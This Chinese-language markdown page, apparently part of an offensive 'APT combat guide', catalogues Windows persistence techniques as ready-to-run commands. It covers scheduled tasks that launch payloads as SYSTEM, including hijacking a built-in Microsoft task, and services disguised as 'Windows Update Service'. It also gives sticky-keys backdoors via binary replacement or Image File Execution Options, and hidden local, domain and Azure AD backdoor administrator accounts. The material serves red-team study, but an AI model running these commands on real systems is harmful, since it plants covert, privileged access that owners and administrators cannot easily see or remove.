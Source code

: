 ### Windows持久化

1. DLL劫持

参考[DLL劫持](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#dll%E5%8A%AB%E6%8C%81)

2. 计划任务

```bash
schtasks /create /tn "MaliciousTask" /tr "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /sc ONSTART /ru SYSTEM
schtasks /query /TN MaliciousTask /XML
schtasks /create /tn "MaliciousTaskDaily" /tr "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /sc DAILY /st 09:00 /ru SYSTEM
```

PowerShell:

```bash
$Action = New-ScheduledTaskAction -Execute "C:\malicious.exe"
$Trigger = New-ScheduledTaskTrigger -AtLogon
$Settings = New-ScheduledTaskSettingsSet
$Settings.ExecutionTimeLimit = "PT0S"
Register-ScheduledTask -TaskName "MaliciousTaskLogon" -Action $Action -Trigger $Trigger -User "SYSTEM" -Settings $Settings
```

```bash
schtasks /delete /TN "MaliciousTask" /F
Unregister-ScheduledTask -TaskName "MaliciousTask" -Confirm:$false
```

```bash
SCHTASKS /Change /tn "\Microsoft\Windows\PLA\Server Manager Performance Monitor" /TR "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /RL HIGHEST /RU SYSTEM /ENABLE
```

3. 创建服务

```bash
sc create MaliciousService binPath= "C:\hi.exe" start= auto obj= LocalSystem DisplayName= "Windows Update Service"
or
New-Service -Name "MaliciousServicePS" -BinaryPathName "C:\malicious.exe" -Description "Windows Update Service" -StartupType Automatic
```

```bash
sc start MaliciousService
sc delete MaliciousService
```

4. 辅助功能

辅助功能的可执行文件位于C:\Windows\System32目录下，辅助功能的可执行文件如下所示:
+	屏幕键盘：osk.exe。用于在屏幕上显示虚拟键盘。在运行中的Windows系统中，可以通过在“运行”对话框中输入osk并按回车键来启动。
+	放大镜：Magnify.exe。用于放大屏幕内容，键入WIN+=可快速启动。
+	轻松访问：Utilman.exe。用于管理各种辅助功能，键入WIN+U可快速启动。
+	讲述人：Narrator.exe。一种屏幕阅读器，用于朗读屏幕上的文本，键入WIN+回车可快速启动。
+	屏幕切换：DisplaySwitch.exe。切换不同的显示模式，键入WIN+P可快速启动。
+	粘滞键：sethc.exe。帮助那些难以同时按下多个组合键（例如 Ctrl + Alt + Delete）的用户。开启粘滞键后，用户可以依次按下每个键，而不是同时按下，键入五次SHIFT可快速启动。

(1)替换可执行文件

```bash
takeown /F C:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrators:F
cmd.exe > sethc.exe
```

(2)修改注册表启动项

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "C:\hi.exe" /f
```

(3)Metasploit框架

```bash
run post/windows/manage/enable_rdp
use post/windows/manage/sticky_keys
```

5. 创建账户

```bash
net user backdoor Password123! /add /comment:"Hidden Account" /fullname:"System Administrator"
net localgroup Administrators backdoor /add
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v backdoor /t REG_DWORD /d 0 /f
```

```bash
New-LocalUser -Name "用户名" -NoPassword和Add-LocalGroupMember -Group "Administrators" -Member "用户名"
```

```bash
net user "hacker" "Password123!" /add /domain
net group "Domain Admins" "hacker" /add /domain
Get-ADUser -identity "hacker" -Properties memberof
```

```bash
$PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
$PasswordProfile.Password = "Password123!"  //密码

New-AzureADUser `
    -DisplayName "Snowwolf" `  //用户名
    -PasswordProfile $PasswordProfile `
    -UserPrincipalName "Snowwolf@contoso.com" `
    -AccountEnabled $true `
    -MailNickName "Snowwolf"

Add-AzureADGroupMember -ObjectId "<ObjectID" -RefObjectId "<RefObject>"
```
